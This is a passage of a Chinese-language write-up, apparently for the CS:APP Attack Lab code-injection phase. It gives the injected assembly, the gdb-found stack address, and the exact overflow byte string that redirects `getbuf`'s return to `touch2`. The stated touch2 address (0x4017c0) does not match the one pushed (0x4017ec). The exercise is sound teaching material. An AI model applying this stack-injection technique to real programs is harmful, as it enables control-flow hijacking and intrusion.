 - 确定注入代码的地址。代码应该存在 `getbuf` 分配的栈中，地址为 `getbuf` 函数中的栈顶

### 注入代码

查到 `touch2` 代码地址为：`0x4017c0`，由上述思路，得代码如下：

```assembly
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

利用 `gdb` 在 `getbuf` 分配栈帧后打断点，查看栈顶指针的位置

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220304175128141-166081256401410.png)

`0x5561dc78` 这就是我们应该修改的返回地址

### 栈帧讲解

按照我们的思路，输入字符串后的栈帧应该是这样的

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220305095954954-166081256744113.png)

逻辑如下：

- `getbuf` 执行 `ret` 指令后，注入代码的地址从栈中弹出
- 程序执行我们编写的代码，当再次执行 `ret` 后，从栈中弹出的就是我们压入的 `touch2` 函数的地址，成功跳转

### Solution

先将我们的汇编代码保存到一个 `.s` 文件中，接下来利用如下指令

```bash
gcc -c injectcode.s
objdump -d injectcode.o > injectcode.d
```

得到字节级表示

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

将这段代码放到 40 个字节中的开头，代码地址放到末尾。于是就得到我们的输入为：

```bash
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
